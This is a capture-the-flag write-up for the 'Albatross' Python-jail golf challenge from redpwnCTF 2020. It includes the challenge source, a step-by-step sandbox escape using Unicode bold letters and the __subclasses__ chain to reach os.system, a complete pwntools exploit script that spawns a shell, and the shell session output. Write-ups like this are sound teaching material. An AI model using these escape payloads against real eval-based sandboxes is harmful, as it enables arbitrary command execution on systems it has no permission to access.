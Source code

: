 # Albatross
This was a pyjail golf challenge. We are given the following source code: 
```python
#!/usr/bin/env python3.7
from rctf import golf
import string, os

# NOTE: Although this challenge may seem impossible, rest assured that we have 
# a working solution that would meet the length restriction within the first  
# few days of the CTF. Keep digging!

rate = 2 # bytes per hour
base = 30 # amount to start with
blacklist = string.ascii_letters + '"\' '

if __name__ == '__main__':
    # create banner
    n = golf.calculate_limit(
        'https://staging.redpwn.net/' if os.environ.get('DEBUG') else 'https://2020.redpwn.net/',
        'albatross', # challenge id
        1592769600, # CTF start date
        lambda hours : int(base + (hours * rate))
    )
    
    print(
        'Welcome to Albatross, the pyjail challenge you wish never existed.\n'
        f'* At the moment, you are only permitted to use a payload of {n} bytes or shorter.\n'
        f'* Every hour, the byte restriction will increase by {rate}.\n'
        '* Once the a team solves this challenge, the restriction will stop increasing\n'
        '* The flag is in /flag.txt\n'
        '* Don\'t let b1c get those HackerOne hoodies! Now\'s your chance to stop them with this high-point challenge.\n' # i literally made this challenge to disadvantage b1c btw
    )

    # filter payload
    try:
        payload = ''.join([
            (x if x not in blacklist else '')
            for x in
            input('>>> ')[:n]
        ])
    except (EOFError, KeyboardInterrupt):
        print('\nYou gave up. Understandable.')
        exit()

    # execute payload
    eval(str(payload), {'__builtins__' : None}, {})
```
We have a few restrictions:
* We can not use letters, quotes or spaces. 
* There is a length restriction. This started at 30 bytes and increased by 2 bytes every hour until a team solved it. The final restriction ended up as 102 bytes.
* The builtins are removed.
* We can not see the output.

We will start by bypassing the letter blacklist. Python allows us to use [mathematical alphanumeric symbols](https://en.wikipedia.org/wiki/Mathematical_Alphanumeric_Symbols) as an alternative to normal letters. We will use bold letters.

We will then be looking at what is available in the program. To do this we can run the program locally with the `-i` flag in python to get an interactive shell after the program finishes. 
First we check which classes we have available with:
```python
().__class__.__base__.__subclasses__()
```
We notice we have `<class 'os._wrap_close'>`. This can lead us to recovering `os` followed by `os.system`. To get the class's index we use:
```python
[c.__name__ for c in ().__class__.__base__.__subclasses__()].index('_wrap_close')
```
This gives us 127. Now that we know the index we can recover `os` by accessing the class's global variables in `__init__` like so:
```python
().__class__.__base__.__subclasses__()[127].__init__.__globals__
``` 
Now that we have access to os we can use `os.system` to run system commands. However, `__globals__` is a dictionary and we can not access `system` by the function's name as we can't use quotes. To work around this we will take get the dictionary values and and unpack it into a list. This way we will be able to access it by its index. We now have:
```python
[*().__class__.__base__.__subclasses__()[127].__init__.__globals__.values()][42]
```

The only remaining part now is to give the system command a command to execute. We can't use quotes so we will have to get the string in another way. We can for example use the tuple documentation which contains both an `s` and an `h` and can be combined to `sh` using string slicing.
```python
>>> ().__doc__
"Built-in immutable sequence.\n\nIf no argument is given, the constructor returns an empty tuple.\nIf iterable is specified the tuple is initialized from iterable's items.\n\nIf the argument is a tuple, the return value is the same object."
>>> ().__doc__.index('s')
19
>>> ().__doc__.index('h')
56
>>> ().__doc__[19:57:37]
'sh'
```

Now we just have to put everything together. We end up with a 102 byte payload. The final exploit is:
```python
#!/usr/bin/env python3
from pwn import *

r = remote("2020.redpwnc.tf", 31156)

alphabet_encoded = "𝐚𝐛𝐜𝐝𝐞𝐟𝐠𝐡𝐢𝐣𝐤𝐥𝐦𝐧𝐨𝐩𝐪𝐫𝐬𝐭𝐮𝐯𝐰𝐱𝐲𝐳𝐀𝐁𝐂𝐃𝐄𝐅𝐆𝐇𝐈𝐉𝐊𝐋𝐌𝐍𝐎𝐏𝐐𝐑𝐒𝐓𝐔𝐕𝐖𝐗𝐘𝐙"
alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
bold_translation = str.maketrans(alphabet, alphabet_encoded)

payload = "[*().__class__.__base__.__subclasses__()[127].__init__.__globals__.values()][42](().__doc__[19:57:37])"
payload = payload.translate(bold_translation)

r.sendlineafter(">>> ", payload)
r.interactive()
```
Running this gives us a shell and we can grab the flag.
```bash
root@kali:~# ./exploit.py 
[+] Opening connection to 2020.redpwnc.tf on port 31156: Done
[*] Switching to interactive mode
$ ls 
albatross.py
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var
$ cat flag.txt
flag{SH*T_I_h0pe_ur_n0t_b1c..._if_y0u_@r3,_th1$_isn't_th3_fl@g}
```

## Alternative 48 bytes method
Before we got our final solution we had an alternative way which just required 48 bytes, but this did unfortunately not work on the remote instance as it requires a fully interactive TTY.
The solution is using the help function in python. Python help is using a pager, in our case less, to show help messages. By using the encoded version of the following payload locally we get a shell after we type `!/bin/sh`. On the remote instance it opens the pager but we can not properly interact with it to get a shell. 
```python
().__class__.__base__.__subclasses__()[130]()(1)
```
